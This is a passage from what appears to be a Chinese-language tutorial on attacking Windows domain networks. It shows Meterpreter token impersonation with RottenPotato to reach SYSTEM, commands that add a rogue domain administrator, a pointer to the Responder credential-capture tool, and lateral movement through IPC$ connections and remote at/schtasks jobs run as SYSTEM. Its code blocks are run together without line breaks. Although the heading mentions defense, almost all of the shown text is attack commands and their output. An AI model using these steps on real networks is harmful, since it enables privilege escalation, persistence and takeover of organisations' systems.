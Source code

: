 ```
#方法二,借用Rotten potato程序
https://github.com/foxglovesec/RottenPotato.git

meterpreter > use incognito
......
meterpreter > list\_tokens -u
......
WIN-2HU3N1\\Administrator
......
meterpreter > upload /root/Rottenpotato/rottenpotato.exe
Successfully......

meterpreter > execute -HC -f rottenpotato.exe
Successfully......

meterpreter > getuid
...NT AUTHORITY\\SYSTEM
```

4.6.2 添加域管理员

```
#cmdnet user mo 123456 /ad /domain            #添加域用户net group "domain admins" mo /ad /domain  #加入域管理员组net group "domain admins" /domain         #查看是否添加成功#MSFadd\_user mo 123456 -h 1.1.1.2add\_group\_user "Domain Admins" mo -h 1.1.1.2
```

在添加好可控制的域管理员后，可迭代使用 MSF 查询所存在的身份验证令牌

### 4.7 无凭证条件下的权限提升

Responder.py：https://github.com/SpiderLabs/Responder.git

0x05 域内横向移动分析与防御
----------------

### 5.1 常用指令

```
#IPC连接net use \\\\192.168.100.190\\ipc$ "123456" /user:administratornet use #查看已建立的连接net use \\\\192.168.100.190\\ipc$ /del /y #删除建立的连接#dir命令dir \\\\192.168.100.190\\c$  2019/06/22  16:47    <DIR>          .  2019/06/22  16:47    <DIR>          ..  2019/04/24  15:22    <DIR>          .ipynb\_checkpoints  2018/11/05  15:05             4,760 1-numpy数值计算基础1.ipynb  2019/04/23  16:13             2,831 Crypto.ipynb               2 个文件      1,469 字节               3 个目录      1,976 可用字节#tasklist命令tasklist /$ 192.168.100.190 /U administrator /P 123456#at计划任务net time \\\\192.168.100.190copy calc.bat \\\\192.168.100.190at \\\\192.168.100.190 4.11PM C:\\calc.bat (无回显)at \\\\192.168.100.190 4.11PM cmd.exe /c "ipconfig >C:/1.txt"type \\\\192.168.100.190\\C$\\1.txt         (分步回显)at \\\\192.168.100.190 7(任务计划的ID号) /delete (清除计划任务)#schtasks计划任务#在远程主机上创建一个：c:\\calc.bat 开机时以System权限启动的 test 任务schtasks /create /s 192.168.100.190 /tn test /sc onstart /tr c:\\calc.bat /ru system /f#执行 test 任务schtasks /run /s 192.168.100.190 /i /tn "test"#删除计划任务schtasks /delete /s 192.168.100.190 /tn "test" /f#schtasks会留存日志C:\\Windows\\Tasks\\SchedLgU.txt
```

### 5.2 Windows 系统散列值获取
